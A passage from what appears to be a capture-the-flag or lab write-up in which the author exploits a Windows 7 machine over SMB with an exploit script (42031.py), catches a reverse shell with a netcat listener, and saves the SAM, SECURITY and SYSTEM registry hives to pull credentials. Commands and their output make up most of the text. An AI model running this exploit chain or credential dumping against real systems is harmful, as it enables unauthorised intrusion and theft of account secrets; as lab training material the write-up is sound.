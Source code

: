 #### Attacking

To prepare to catch the reverse shell, I started a netcat listener on port 443 in a new terminal. Then I returned to the original to install the single required python dependency `impacket` and kick off the attack.

```bash
root@kali:~# nc -lvnp 443
listening on [any] 443 ...
```

```bash
root@kali:~/ctf/exploits# pip2 install impacket
... 
root@kali:~/ctf/exploits# python2 42031.py $ATTACKTARGET sc_joined.bin 20
shellcode size: 1332
numGroomConn: 20
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

I switched back to our open netcat process to confirm the success of the attack and was happy to find a Windows shell prompt.

```bash
root@kali:~# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.47.175] from (UNKNOWN) [10.10.87.38] 49170
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

### Foothold

Unlike the first attack I knew this windows shell was extremely limited, so my first priority was to try to egress credentials so that I could escalate to a more stable point of access.

```powershell
C:\Windows\system32>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    Jon                      
The command completed with one or more errors.


C:\Windows\system32>cd ../../
cd ../../

C:\>reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\sam C:\sam.save
The operation completed successfully.

C:\>reg.exe save hklm\security C:\security.save
reg.exe save hklm\security C:\security.save
The operation completed successfully.

C:\>reg.exe save hklm\system c:\system.save
reg.exe save hklm\system C:\system.save
The operation completed successfully.
```